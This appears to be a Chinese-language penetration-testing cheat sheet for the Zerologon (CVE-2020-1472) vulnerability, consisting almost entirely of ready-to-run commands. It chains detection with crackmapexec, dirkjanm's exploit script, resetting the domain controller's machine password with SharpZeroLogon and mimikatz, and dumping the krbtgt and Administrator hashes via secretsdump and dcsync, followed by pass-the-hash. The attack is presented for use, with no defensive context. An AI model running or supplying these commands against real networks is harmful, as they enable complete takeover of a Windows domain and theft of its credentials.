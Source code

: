   #### 检测
  	crackmapexec smb 10.10.10.10 -u username -p password -d domain -M zerologon
  #### cve-2020-1472-exploit.py- 来自dirkjanm的 Python 脚本
	git clone https://github.com/dirkjanm/CVE-2020-1472.git
	激活一个虚拟环境来安装impacket
	>python3 -m venv venv
	>source venv/bin/activate
	>pip3 install .
	>proxychains python3 cve-2020-1472-exploit.py DC01 172.16.1.5
	查找 DC 的旧 NT 哈希
	>proxychains secretsdump.py -history -just-dc-user 'DC01$' -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'CORP/DC01$@DC01.CORP.LOCAL'
	从 secretsdump 恢复密码
	将本地注册表机密转储到最新版本时,secretsdump 将自动转储明文机器密码（十六进制编码）
	python restorepassword.py CORP/DC01@DC01.CORP.LOCAL -target-ip 172.16.1.5 -hexpass e6ad4c4f64e71cf8c8020aa44bbd70ee711b8dce2adecd7e0d7fd1d76d70a848c987450c5be97b230bd144f3c3
	deactivate
  #### nccfsas- Cobalt Strike 的执行程序集的 .NET 二进制文件
	>git clone https://github.com/nccgroup/nccfsas
	检查
	>execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local
	重置机器账户密码
	>execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local -reset
	从一个没加入域的机器测试
	>execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local -patch
  #### Mimikatz- 2.2.0 20200917 zerologon
  	privilege::debug
	检查
	lsadump::zerologon /target:DC01.LAB.LOCAL /account:DC01$
	执行，并且设置密码为空
	lsadump::zerologon /target:DC01.LAB.LOCAL /account:DC01$ /exploit
	执行dcsync导出hash
	lsadump::dcsync /domain:LAB.LOCAL /dc:DC01.LAB.LOCAL /user:krbtgt /authuser:DC01$ /authdomain:LAB /authpassword:"" /authntlm
	lsadump::dcsync /domain:LAB.LOCAL /dc:DC01.LAB.LOCAL /user:Administrator /authuser:DC01$ /authdomain:LAB /authpassword:"" /authntlm
	PTH
	sekurlsa::pth /user:Administrator /domain:LAB /rc4:HASH_NTLM_ADMIN
	使用 IP 地址代替FQDN 用 Windows API 来强制 NTLM
	重置密码为Waza1234/Waza1234/Waza1234/
	# https://github.com/gentilkiwi/mimikatz/blob/6191b5a8ea40bbd856942cbc1e48a86c3c505dd3/mimikatz/modules/kuhl_m_lsadump.c#L2584
	lsadump::postzerologon /target:10.10.10.10 /account:DC01$